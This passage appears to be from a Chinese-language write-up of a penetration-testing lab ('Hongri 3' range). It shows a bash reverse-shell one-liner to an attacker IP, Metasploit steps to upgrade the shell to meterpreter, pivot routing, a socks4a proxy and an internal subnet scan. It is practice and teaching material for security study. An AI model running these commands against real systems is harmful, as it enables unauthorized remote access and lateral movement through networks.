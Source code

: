```
bash -i >& /dev/tcp/192.168.111.128/4444 0>&1
```

即可传回shell

![13](E:\笔记软件\笔记\渗透测试\靶机练习\红日3\13.png)

但这样获取到的shell并不是msf的session，需要再进行转换到msf的session

```
use post/multi/manage/shell_to_meterpreter
set lhost   192.168.111.128
set lport   4445
set session 3
run
```

session根据msf的不同需要自行设置

![14](E:\笔记软件\笔记\渗透测试\靶机练习\红日3\14.png)

## 内网渗透

拿到msf-shell之后，我们便可以利用该机器作为跳板机进行内网渗透，添加路由

```
route add 192.168.93.0 255.255.255.0 4
```

![15](E:\笔记软件\笔记\渗透测试\靶机练习\红日3\15.png)

建立sock4a通道

```
use auxiliary/server/socks_proxy
set version 4a
run
```

修改proxychains配置文件，方便后续使用namp,探测存活主机

```
use auxiliary/scanner/discovery/udp_probe
set rhosts 192.168.93.1-255
run
```


![16](E:\笔记软件\笔记\渗透测试\靶机练习\红日3\16.png)

扫出来三台主机

```
192.168.93.10 ==可知为windows
...........20  ==>win2008
		  30  ==> win7
```

